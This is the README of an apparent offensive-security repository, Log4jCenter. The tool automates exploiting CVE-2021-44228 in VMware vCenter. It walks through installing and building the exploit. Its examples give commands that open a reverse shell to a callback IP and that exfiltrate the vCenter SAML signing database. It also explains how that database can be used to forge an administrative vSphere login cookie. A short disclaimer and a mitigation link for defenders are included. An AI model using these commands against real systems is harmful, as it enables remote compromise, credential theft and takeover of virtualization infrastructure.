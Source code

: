 # Log4jCenter

Exploiting CVE-2021-44228 in vCenter for remote code execution and more. Blog post detailing exploitation linked below:

* COMING SOON

# Why?

Proof of concepts for this vulnerability are scattered and have to be performed manually. This repository automates the exploitation process and showcases an additional attack path that is possible after exploitation.

# Install

This repository can be used manually or with Docker.

### Manual install

To download and run the exploit manually, execute the following steps. First, ensure that Java and Maven are installed on your attacker host. To do this using apt on Debian based operating systems, run the following command:

```
apt update && apt install openjdk-11-jre maven
```

Clone the GitHub repository and install all python requirements:

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jCenter \
    && cd Log4jCenter && pip3 install -r requirements.txt
```

From the root of the Log4jCenter repository, compile the Rogue-Jndi project using the command below:

```
mvn package -f utils/rogue-jndi/
```

### Docker install

First, ensure that Docker is installed on your attacking host. (I am not going to walk you through doing this)

Following that, execute the following command to clone the repository and build the Docker image we will be using.

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jCenter \
    && cd Log4jCenter && docker build -t log4jcenter .
```

To run the container, run a command similar to the following with your command line flags appended. For example, the command below would be used to exploit vCenter and get a reverse shell. Note that the container will not catch the reverse shell. You need to create a ncat listener in a separate shell session:

```
docker run -it -v $(pwd)/loot:/Log4jCenter/loot -p 8090:8090 -p 1389:1389 log4jcenter \ 
    -t 10.100.100.1 -i 192.168.1.1 -p 4444 -r
```


# Usage

```
usage: exploit.py [-h] -t IP -i CALLBACK [-p PORT] [-e] [-r]

optional arguments:
  -h, --help            show this help message and exit
  -t IP, --target IP    vCenter Host IP
  -i CALLBACK, --ip CALLBACK
                        Callback IP for payload delivery and reverse shell.
  -p PORT, --port PORT  Callback port for reverse shell.
  -e, --exfiltrate      Module to pull SAML DB
  -r, --revshell        Module to establish reverse shell
```

# Examples

Get a reverse shell using the tool installed on your local system:

```
python3 exploit.py -t vcenter.acme.com -i 10.10.10.1 -p 4444 -r
```

Exfiltrate the SAML signing databases from within a Docker container:

```
docker run -it -v $(pwd)/loot:/Log4jCenter/loot -p 1389:1389 -p 8090:8090 log4jcenter \
    -t 10.100.100.1 -i 192.168.1.1 -e
```

# Notes

* Included in the utils directory is the repository [vcenter_saml_login](https://github.com/horizon3ai/vcenter_saml_login). You can use this in combination with the e flag to exfiltrate the vCenter SAML signing database and generate an administrative login cookie for vSphere. You will need to install requirements separately.
* For defenders, you can mitigate this issue using a patch coming soon or the workaround detailed [here](https://kb.vmware.com/s/article/87081)

# Disclaimer
This tool is designed for use during penetration testing; usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse of this program.
